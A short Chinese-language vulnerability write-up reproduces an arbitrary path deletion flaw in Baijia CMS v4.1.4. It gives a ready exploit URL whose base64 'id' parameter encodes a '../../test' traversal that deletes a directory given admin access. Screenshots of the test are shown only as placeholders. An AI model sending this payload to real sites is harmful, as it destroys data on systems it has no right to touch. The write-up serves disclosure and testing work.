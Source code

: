 百家cms v4.1.4 任意路径删除漏洞
===============================

一、漏洞简介
------------

二、漏洞影响
------------

百家cms v4.1.4

三、复现过程
------------

    # 需要后台权限
    # 只能删除路径
    http://www.0-sec.org/index.php?mod=site&act=manager&do=database&op=delete&id=Li4vLi4vdGVzdA==&beid=1

根目录下创建test文件夹，里面有内容为123的test.txt文件

![](./resource/百家cmsv4.1.4任意路径删除漏洞/media/rId24.png)

访问payload将参数转为base64并方位payload

![](./resource/百家cmsv4.1.4任意路径删除漏洞/media/rId25.png)

![](./resource/百家cmsv4.1.4任意路径删除漏洞/media/rId26.png)

查看文件夹，已被删除

![](./resource/百家cmsv4.1.4任意路径删除漏洞/media/rId27.png)

参考链接
--------

> https://xz.aliyun.com/t/7542
